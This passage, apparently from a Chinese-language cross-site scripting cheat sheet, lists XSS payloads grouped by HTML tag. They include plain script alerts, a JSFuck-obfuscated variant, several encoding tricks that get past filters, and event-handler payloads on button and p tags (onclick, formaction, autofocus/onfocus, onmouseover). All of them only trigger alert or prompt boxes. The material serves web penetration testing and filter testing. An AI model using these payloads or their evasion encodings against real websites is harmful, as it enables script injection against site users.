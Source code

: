    - 最简单的测试payload：

     ```html
     <script>alert(1)</script>
     ```

   - jsfuck版本：

     ```html
     <script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
     ```

     [jsfuck](http://www.jsfuck.com/)

   - 各种编码版本：

     ```html
     <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>

     <script>prompt(-[])</script>//不只是alert。prompt和confirm也可以弹窗 

     <script>alert(/3/)</script>//可以用"/"来代替单引号和双引号 

     <script>alert(String.fromCharCode(49))</script> //我们还可以用char

     <script>alert(/7/.source)</script> // ".source"不会影响alert(7)的执行

     <script>setTimeout('alert(1)',0)</script> //如果输出是在setTimeout里，我们依然可以直接执行alert(1)
     ```

3. button标签

   - event事件实现js调用：

     ```html
     <button/onclick=alert(1) >M</button>
     ```

   - html5的新姿势：

     需要交互的版本：

     ```html
     <form><button formaction=javascript&colon;alert(1)>M
     ```

     不需要交互的版本：

     ```html
     <button onfocus=alert(1) autofocus>
     ```

4. p标签

   - 如果发现变量输出在p标签中，只要能跳出`""`就足够了：
     ```html
     <p/onmouseover=javascript:alert(1); >M</p>
     ```

